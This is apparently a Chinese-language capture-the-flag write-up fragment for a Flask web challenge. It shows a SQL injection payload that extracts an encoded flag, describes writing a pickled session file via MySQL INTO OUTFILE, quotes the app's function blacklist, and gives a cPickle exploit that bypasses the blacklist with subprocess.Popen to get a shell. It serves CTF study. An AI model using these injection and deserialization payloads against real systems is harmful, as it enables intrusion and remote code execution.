 ```
name:12333 
id:10

database:flask
table: flaaaaag,followers,post,user
columns: flllllag

encode加密flag 
asdf','10','2018-03-24'),(NULL,hex(encode((select flllllag from flaaaaag),'qwertyuiokmnnnhgbv')),'10','2018-03-24')#
decode解密
select decode(unhex('6201D0BB2543B2DE415C367C7DE295C4777C8E541D4FC9B2E1DA6209AB'),'qwertyuiokmnnnhgbv');

```

第二步是flask的session反序列化漏洞，python会反序列化用户的session，问题在于不知道如何控制session，赛后讨论的时候发现...明明有注入为什么不用注入来写呢。

上面的注入可以通过执行多条语句向文件中写入内容。

然后python的session文件和php一样，在`/tmp/ffff/md5(bdwsessions+user)`，通过mysql into outfile可以写文件到这里控制有效的。

分享一些相关的文章
[https://www.leavesongs.com/PENETRATION/client-session-security.html](https://www.leavesongs.com/PENETRATION/client-session-security.html)

[http://mp.weixin.qq.com/s/xEBr7JxbSTt11oiBsgc3uw](http://mp.weixin.qq.com/s/xEBr7JxbSTt11oiBsgc3uw)

[https://github.com/bl4de/ctf/blob/master/2016/HackIM_2016/Unicle_Web200/Unicle_Web200_writeup.md](https://github.com/bl4de/ctf/blob/master/2016/HackIM_2016/Unicle_Web200/Unicle_Web200_writeup.md)


然后代码中还有一些黑名单机制
```
black_type_list = [eval, execfile, compile, system, open, file, popen, popen2, popen3, popen4, fdopen,tmpfile, fchmod, fchown, pipe, chdir, fchdir, chroot, chmod, chown, link,lchown, listdir, lstat, mkfifo, mknod, mkdir, makedirs, readlink, remove, removedirs,rename, renames, rmdir, tempnam, tmpnam, unlink, walk, execl, execle, execlp, execv,execve, execvp, execvpe, exit, fork, forkpty, kill, nice, spawnl, spawnle, spawnlp, spawnlpe,spawnv, spawnve, spawnvp, spawnvpe, load, loads]
```

其中限制了很多关键字，但`subprocess.Popen`没有被限制，所以就可以随意执行命令

```
#!/usr/bin/env python
#coding: utf-8
__author__ = 'bit4'
import cPickle
import os
import subprocess
class Exploit(object):
    def __reduce__(self):
        return (subprocess.Popen, (('xx','/tmp/xxxx',),))

shellcode  = cPickle.dumps(Exploit())
print '0x' + shellcode .encode('hex')
```

成功getshell

